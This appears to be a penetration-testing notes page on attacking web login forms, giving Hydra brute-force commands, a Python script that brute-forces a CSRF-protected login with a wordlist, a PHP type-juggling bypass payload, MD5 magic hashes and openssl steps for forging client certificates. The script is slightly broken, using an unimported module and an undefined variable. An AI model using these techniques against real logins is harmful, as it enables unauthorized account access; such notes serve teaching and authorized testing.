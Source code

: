 ```yaml
---
title: Login Panes
category: Web
order: 2
---
```


We can find some login panes that we want to bypass or bruteforce. Here you can find some amazing tricks.


# Bruteforce it!

## Hydra

hydra is a powerful network service attack tool that attacks a variety of protocol authentication schemes, including SSH and HTTP.

### POST Forms

```
hydra <ip-addr> -l user -P passwords.txt -s <port> -vV -f http-form-post "/index.php:user=^USER^&password=^PASS^:Invalid Credentials"

-l user
-L user wordlist
-p password
-P password wordlist
```

## Basic Auth

```
hydra <ip-addr> -l user -P passwords.txt -s <port> -vV -f http-get /index.php
```

## My own script

I made my own script in order to bruteforce some login panes with CSRF protection. I think is a good alternative to the Burpsuite **Pitchfork attack.**

```
#!/usr/bin/env python3

import sys, os, requests, codecs

s = requests.Session()

# Get CRSF TOKEN
resp = s.get("https://WEBPAGE.LOCAL/", verify=False)
regex = '<input type="hidden" name="csrf" value="(.*)"'
token = re.search(regex,resp.text).group(1)

with codecs.open("/usr/share/wordlists/rockyou.txt", 'r', encoding='utf-8', errors='ignore') as wordlist:
	dic = wordlist.read().splitlines()
	for pwd in dic:

		#Bruteforce
		data_post = {
			"csrf" : token,
			"username" : "admin",
			"password" : pwd,
		}
		print("[!] Trying: " + pwd)
		resp2 = s.post("https://WEBPAGE.LOCAL/login", json=data_post, verify=False)
		if "permission_denied" not in resp2.text:
			print("Username = " + username + "Password = " + pwd)
			sys.exit(0)	
```

# Bypass it!

The are very different methods to bypass a login pane, this are the most common ones.

## SQLi

There are more info to bypass login panes with SQL Injections in:

* [sqli.md](../sqli/)

## PHP Type Juggling (==)

How PHP’s type comparison features lead to vulnerabilities and in that case to bypass the login. Loose comparisons (==) have a set of operand conversion rules to make it easier for developers.

Let's check the differences between Strict comparisons (===) and Loose comparisons (==).

![PHP Strict comparison](/hackingnotes/images/phpstrict.png)

![PHP Loose comparison](/hackingnotes/images/phploose.png)

When we find some code like this:

```
if($_POST['password'] == "secretpass")
```

Instead of send a string we send an array we will bypass the login:

```
username=admin&password[]=
```

* [https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)

### Magic Hashes

This particular implication for password hashes wen the operator equals-equals(==) is used. The problem is in == comparison, the 0e means that if the following characters are all digits the whole string gets treated as a float. Below is a list of hash types that when hashed are ^0+ed\*$ which equates to zero in PHP when magic hashes typing using the “==” operator is applied. That means that when a password hash starts with “0e…” as an example it will always appear to match the below strings, regardless of what they actually are if all of the subsequent characters are digits from “0-9”.

```
# MD5
240610708 - 0e462097431906509019562988736854
QNKCDZO   - 0e830400451993494058024219903391
aabg7XSs  - 0e087386482136013740957780965295
```

* [https://www.whitehatsec.com/blog/magic-hashes/](https://www.whitehatsec.com/blog/magic-hashes/)

# Client Certificates

**SSL/TLS** certificates are commonly used for both encryption and identification of the parties, sometimes this is used instead of credentials at login.

## Setting up the private key and the certificate (Server)

First of all, we need to generate our keys and certificates. We use the `openssl` command-line tool.

```
openssl req -x509 -newkey rsa:4096 -keyout server_key.pem -out server_cert.pem -nodes -days 365 -subj "/CN=localhost/O=Client\ Certificate\ Demo"
```

## Setting up client certificates

To create a key and a Certificate Signing Request for Alice and Bob we can use the following command:

```
openssl req -newkey rsa:4096 -keyout alice_key.pem -out alice_csr.pem -nodes -days 365 -subj "/CN=Alice"
openssl req -newkey rsa:4096 -keyout bob_key.pem -out bob_csr.pem -nodes -days 365 -subj "/CN=Bob"
```

### Server Signed Certificate:

```
openssl x509 -req -in alice_csr.pem -CA server_cert.pem -CAkey server_key.pem -out alice_cert.pem -set_serial 01 -days 365
```

Maybe during the pentest we found the server key, remember that **we can download the server certificate** with the browser.

![](/hackingnotes/images/cert.png)

### Self-Signed Certificate:

```
openssl x509 -req -in bob_csr.pem -signkey bob_key.pem -out bob_cert.pem -days 365
```

## Trying to get in

To use these certificates in our browser or via curl, we need to bundle them in PKCS#12 format.

```
openssl pkcs12 -export -clcerts -in alice_cert.pem -inkey alice_key.pem -out alice.p12
openssl pkcs12 -export -in bob_cert.pem -inkey bob_key.pem -out bob.p12
```

### Via Browser

`Settings -> Privacy & Security -> Security -> Certificates -> View Certificates... -> Your Certificates -> Import`

![](/hackingnotes/images/importcert.png)

### Via Curl

```
curl --insecure --cert mvc1009.p12 --cert-type p12 https://localhost:443/
```

* [https://medium.com/@sevcsik/authentication-using-https-client-certificates-3c9d270e8326](https://medium.com/@sevcsik/authentication-using-https-client-certificates-3c9d270e8326)

# References:

* [https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/](https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/)
* [https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)
* [https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp)
* [https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
